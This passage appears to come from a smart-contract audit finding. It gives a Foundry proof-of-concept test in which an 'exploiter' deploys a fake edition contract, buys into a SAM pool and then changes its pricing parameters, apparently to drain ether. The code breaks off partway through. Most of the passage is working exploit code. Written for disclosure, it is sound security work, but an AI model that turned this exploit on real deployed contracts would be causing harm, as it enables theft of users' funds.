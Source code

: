 ### Proof of Concept

Here is a drop in test that can be added to the test file to validate this attack:
```solidity
pragma solidity ^0.8.16;

import { SAM } from "@modules/SAM.sol";
import "forge-std/Test.sol";

contract EvilEdition {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function mintConcluded() public view returns (bool) {
        return false;
    }

    function samMint(address to, uint quantity) public returns (uint) {
        return 1;
    }

    function samBurn(address from, uint[] memory tokenIds) public {}
}

contract SAMTests is Test {
    SAM sam;
    EvilEdition edition;
    address exploiter = makeAddr("exploiter");

    function testZach__BigEvilExploit() public {
        vm.startPrank(exploiter);
        vm.deal(exploiter, 1);

        sam = new SAM();
        edition = new EvilEdition();
        vm.deal(address(sam), 1000 ether);
        console.log("Starting Exploiter Balance:", exploiter.balance);
        console.log("Starting SAM Balance:", address(sam).balance);

        sam.create(
            address(edition),
            0, // base
            1, // infl price
            type(uint32).max, // infl point
            1000, 0, 0 // artist, golden egg, affiliate
        );

        bytes32[] memory affProof = new bytes32[](0);
        sam.buy{value: 1}(
            address(edition),
            exploiter,
            1,
            address(0),
            affProof
        );

        sam.setInflectionPrice(address(edition), 500 ether);
        sam.setInflectionPoint(address(edition), 1);

        uint[] memory tokenIds = new uint[](1);
```